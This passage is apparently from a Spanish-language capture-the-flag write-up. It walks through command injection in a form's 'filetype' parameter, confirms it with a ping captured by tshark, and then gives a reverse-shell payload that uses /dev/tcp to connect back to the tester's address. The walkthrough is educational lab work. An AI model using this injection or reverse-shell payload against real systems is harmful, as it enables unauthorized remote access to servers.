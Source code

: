 ```html
```

## Ejecutando comandos (Command Injection)

Cuando analizamos la petición con __Burp Suite__, encontramos los parámetros enviados en el formulario visto anteriormente. Hice modificaciones en el valor de _filetype_, comenzando con un punto y coma para revisar la reacción, lo que sucedió fue que el servidor me devolvió un error 500.

Llegado a cierto punto intenté inyectar un comando de consola, pero no recibía respuesta, así que envié una traza ICMP a mi máquina y esperé a que apareciera con _tshark_ `ping+-c+1+10.10.14.73`:

### tshark

```shell
sudo tshark --color -nni any icmp
Capturing on 'any'
 ** (tshark:10598) 00:46:00.576112 [Main MESSAGE] -- Capture started.
 ** (tshark:10598) 00:46:00.576211 [Main MESSAGE] -- File: "/tmp/wireshark_anyXF07V1.pcapng"
    1 0.000000000  10.10.14.73 → 10.10.14.73  ICMP 100 Echo (ping) request  id=0x000a, seq=1/256, ttl=64
    2 0.000022668  10.10.14.73 → 10.10.14.73  ICMP 100 Echo (ping) reply    id=0x000a, seq=1/256, ttl=64 (request in 1)
    3 30.026726631 10.10.11.182 → 10.10.14.73  ICMP 100 Echo (ping) request  id=0x0003, seq=1/256, ttl=63
    4 30.026761095  10.10.14.73 → 10.10.11.182 ICMP 100 Echo (ping) reply    id=0x0003, seq=1/256, ttl=64 (request in 3)
^C4 packets captured
```

Obtuvimos respuesta de la máquina, así que está ejecutando comandos. Procedemos a conectarnos a la máquina víctima por medio de una shell inversa, en mi caso he usado la siguiente carga útil `png;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.73/4434+0>%261`:

## Obteniendo una shell como wizard